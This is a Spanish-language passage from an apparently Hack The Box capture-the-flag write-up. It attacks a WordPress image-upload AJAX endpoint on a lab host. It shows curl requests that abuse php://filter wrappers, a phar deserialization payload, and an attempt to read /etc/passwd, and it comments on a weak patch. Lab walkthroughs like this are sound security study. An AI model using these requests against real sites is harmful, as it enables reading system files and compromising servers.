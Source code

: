 ### PHP Wrappers

Haciendo uso de `wrappers` como `php://filter`, podemos cargar el contenido de un archivo en una nueva "imagen"

~~~ bash
curl http://blog.bigbang.htb/wp-admin/admin-ajax.php -H 'Content-Type: application/x-www-form-urlencoded' -d 'action=upload_image_from_url&id=1&accepted_files=image/gif&url=php://filter/convert.base64-encode|convert.base64-decode/resource=../wp-content/uploads/2025/05/1.png'

{"status":"OK","response":"http:\/\/blog.bigbang.htb\/wp-content\/uploads\/2025\/05\/1-27.png","attachment_id":190}# 
~~~

Si ahora solicitamos el nuevo recurso que se ha generado, podemos ver que se trata del archivo que subimos anteriormente

~~~ bash
curl 'http://blog.bigbang.htb/wp-content/uploads/2025/05/1-27.png' -so test.png

strings test.png 

GIF89a
<?php __HALT_COMPILER(); ?>
O:4:"Evil":0:{}
test.txt
text
1+|2
GBMB
~~~

El siguiente paso lógicamente sería intentar incluir archivos de la máquina y guardar su contenido en un nuevo archivo de "imagen" dentro del directorio `/uploads`. Sin embargo si usamos un `wrapper` de `PHP` para intentar hacer esto, el servidor rechaza nuestra solicitud

~~~ php
curl http://blog.bigbang.htb/wp-admin/admin-ajax.php -H 'Content-Type: application/x-www-form-urlencoded' -d 'action=upload_image_from_url&id=1&accepted_files=image/gif&url=php://filter/convert.base64-encode|convert.base64-decode/resource=php://filter/convert.base64-encode/resource=/etc/passwd'   
{"status":"FAILED","response":"File type  is not allowed."}# 
~~~

> El servidor no interpretará nuestra solicitud debido a que a partir de PHP 8, ya no se deserializan los metadatos para completar el ataque. Desde la versión 2.7.8, se ha implementado el siguiente parche
{: .notice--danger}

~~~ bash
if ( strpos( $valid_url, 'phar://' ) !== false ) {  
  return;  
}
~~~

Esto parece seguir siendo inseguro, porque aún no se está validando el contenido del archivo, solamente se valida si se está usando el wrapper `phar://`
